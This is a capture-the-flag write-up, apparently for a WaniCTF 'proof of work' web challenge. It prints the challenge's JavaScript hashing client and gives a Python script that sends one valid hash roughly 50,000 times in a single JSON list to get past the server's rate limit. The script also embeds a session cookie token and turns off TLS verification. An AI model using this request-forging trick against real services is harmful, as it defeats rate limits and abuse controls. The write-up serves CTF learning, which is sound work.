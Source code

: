 # Introduction
This challange is about reading a little JS understand logic and send modified requests.

## Challange Discription

compute hash to get your flag

https://web-pow-lz56g6.wanictf.org/



## Step 1

Here is complete JS code :

```JavaScript


<!DOCTYPE html>
<html>
  <head>
    <title>POW Client</title>
  </head>
  <body>
    <h1>Proof of Work</h1>
    <p>Calculate hashes to get the flag!</p>
    <p>Client status: <span id="client-status">(no status yet)</span></p>
    <p>Server response: <span id="server-response">(no hash sent yet)</span></p>
    <script
      src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.2.0/crypto-js.min.js"
      integrity="sha512-a+SUDuwNzXDvz4XrIcXHuCf089/iJAoN4lmrXJg18XnduKK6YlDHNRalv4yd1N40OKI80tFidF+rqTFKGPoWFQ=="
      crossorigin="anonymous"
      referrerpolicy="no-referrer"
    ></script>
    <script>
       function hash(input) {
        let result = input;
        for (let i = 0; i < 10; i++) {
          result = CryptoJS.SHA256(result);
        }
        return (result.words[0] & 0xFFFFFF00) === 0;
      }
      async function send(array) {
        document.getElementById("server-response").innerText = await fetch(
          "/api/pow",
          {
            method: "POST",
            headers: {
              "Content-Type": "application/json",
            },
            body: JSON.stringify(array),
          }
        ).then((r) => r.text());
      }
      let i = BigInt(localStorage.getItem("pow_progress") || "0");
      async function main() {
        await send([]);
        async function loop() {
          document.getElementById(
            "client-status"
          ).innerText = `Checking ${i.toString()}...`;
          localStorage.setItem("pow_progress", i.toString());
          for (let j = 0; j < 1000; j++) {
            i++;
            if (hash(i.toString())) {
              await send([i.toString()]);
            }
          }
          requestAnimationFrame(loop);
        }
        loop();
      }
      main();
    </script>
  </body>
</html>

```

There is a **POST** request to the server that if the json data inside is not valid it will response with `400 bad Request` :

![](../assets/Pow_1.png)


We have to ways here to to calculate a value that when goes to **hash()** function returns true value or wait for client to calculate and find value for us and when it sends a POST request we capture it :

![](../assets/Pow_2.png)


Since there is a rate limit in sending request when i tried multiple values of same in a list is saw server will count base on the numbers of list elements, so here is a python script to send multiple requests same time :

```Python
import requests
import json

# Define the URL
url = 'https://web-pow-lz56g6.wanictf.org/api/pow'
pows = []
for i in range(1,50000):
    pows.append("45707619")
# Define the headers
headers = {
    'Host': 'web-pow-lz56g6.wanictf.org',
    'Cookie': 'pow_session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiI0MDkwNWU1Ni0xYjZmLTQzZjEtODZiZS1lZjcxZmU3NWE0YzkifQ.l6bqjpdljUJ-tdyGNQcbPLSPKr6cB0FhjwQuiWU_bgk; googtrans=/auto/en',
    'Sec-Ch-Ua': '"Chromium";v="125", "Not.A/Brand";v="24"',
    'Sec-Ch-Ua-Platform': '"Android"',
    'Sec-Ch-Ua-Mobile': '?1',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Mobile Safari/537.36',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://web-pow-lz56g6.wanictf.org',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://web-pow-lz56g6.wanictf.org/',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Priority': 'u=1, i'
}

# Define the JSON payload
data = json.dumps(pows)

# Send the POST request
response = requests.post(url, headers=headers, data=data, verify=False)

# Print the response
print(response.status_code)
print(response.text)

```